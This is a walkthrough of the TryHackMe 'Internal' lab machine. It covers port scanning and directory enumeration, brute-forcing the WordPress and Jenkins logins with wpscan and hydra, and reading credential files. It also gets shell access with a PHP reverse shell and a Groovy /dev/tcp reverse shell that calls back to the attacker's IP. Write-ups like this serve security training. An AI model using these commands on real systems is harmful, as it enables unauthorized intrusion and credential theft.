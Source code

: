 First of all this is my first writeup after solving a machine. I solved a few of TryHackme machines before, but these were all a lot more guided and easier and without any rabbit holes (or at least I did not find them).

I hope it helps you to solve this machine like it helped me to read Writeups.

## Introduction
We are going to solve the machine: **Internal** available on [TryHackMe](https://tryhackme.com).  
Before working with the machine, add an entry to your `/etc/hosts` mapping the IP (in my case `10.10.190.47`) to `internal.thm`.

## Recon
I started throwing nmap on the target. With a complete scan with `nmap -A internal.thm` I saw two open ports, 22 and 80.

```
Nmap scan report for internal.thm (10.10.190.47)
Host is up (0.00062s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:9B:4D:A7:14:0D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

With the `nmap internal.thm --script vuln` command I tried to find some general known vulnerabilities in the services, but without success.

## Enumeration
Then I used gobuster to look for some known directories:
`gobuster dir -u 10.10.190.47 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

I found three potentially interesting directories:
```
/blog (Status: 301)
/wordpress (Status: 301)
/phpmyadmin (Status: 301)
```

I decided to try out finding some information about wordpress first. You may also notice that blog and wordpress are pointing to the same application.
Opening the page on `internal.thm/blog` I saw the default installation of WordPress.

### WordPress Enumeration
Knowing that a default WordPress login is accessible via `/blog/wp-admin.php`, I navigated to that page and tested out some credentials.

Wild guessing the user might be `admin`, WordPress told me the password for that user was wrong. 
On the other hand: If I used another, non-existing user, WordPress told me `Uknown username`. 
So now I know `admin` is an existing user, nice!

Let's use another tool from our toolchain: **wpscan**. WPScan has a lot of useful parameters. Using the following command, we can find the password for the admin:
`wpscan --url http://internal.thm/wordpress --usernames 'admin' --passwords /usr/share/wordlists/rockyou.txt`

After a few seconds I found the password for the admin user and few further details.

## Accessing the System and gaining shell access
After logging in I decided to not install a reverse shell plugin, but to include a PHP reverse shell from pentestmonkey into the `404.php` page.

On my system I waited for a connection via `nc -nlvp 1234`.

After opening a random page on the blog, the session opened and I could get shell access.

Looking into `/home`-dir, I found an user `aubreanna`. I could access the user's home dir.

But we know from before that there is also a `phpmyadmin`-instance which is by default placed under `/etc/phpmyadmin`. Via catting the `config-db.php`, I could find the default password for the phpmyadmin-user.

After searching some time for further infos I got a bit stuck. No infos could be found here, no user information etc.

Before looking for further infos, I found an article on WordPress called _Private_. Credentials for the user william were there.
I hoped it was some more-privileged user for SSH but via `cat /etc/passwd` I could verify there is no user with the username `william`. 

Without finding further information, I checked `/opt`-directory since I usually put my apps here and found an maybe interesting file: `wp-save.txt`.

And luckily I found some credentials for aubreanna! :)

![](https://i.imgur.com/Ijbnsya.png)


After using these credentials I was able to find the `user.txt` in the *aubreanna's* home directory and found a flag here. :)

## Privilege Escalation
Next hint in aubreanna's directory was the `jenkins.txt`.
But actually I could see that this Jenkins instance is on another network. I used an SSH tunnel to access this network via the `internal.thm`:

```bash
ssh -L 8888:172.17.0.2:8080 -l aubreanna internal.thm
```
`localhost:8888` showed me the Jenkins login page. I tried to use the credentials exposed on WordPress, but that did not work. 
Maybe I could find something with hydra.

![](https://i.imgur.com/N3SodUC.png)

But which user should I take? After having a short research on that, I found out there might be an `admin` user by default.
With Hydra and a little help of my network console, I saw three things I need for cracking the password:

```
File: /j_acegi_security_check
Request Body: j_username=admin&j_password=admin&from=%2F&Submit=Sign+in
```
Addtionally I know the error when login does not succeed: _Invalid username or password_
So I could construct the hydra-command and replace user and pw with placeholders:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8888 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

Using this command we found the password for our admin user.

From [this](https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/) site, we can now gain the information of how we can create a reverse shell from Jenkins Script Console (which can be found in Jenkins->Node->master->Script Console):
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.7.212/4321;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

After listening for this via `nc -nlvp 4321`, we are again on another machine.
Guessing to see again some useful info in `/opt`, I check the directory and - quel surprise - we can find a `note.txt`.

![](https://i.imgur.com/pURMR8X.png)

As we can see, we find some relevant info here. ;) 
Let's login to `internal.thm `as root and capture our root-flag.

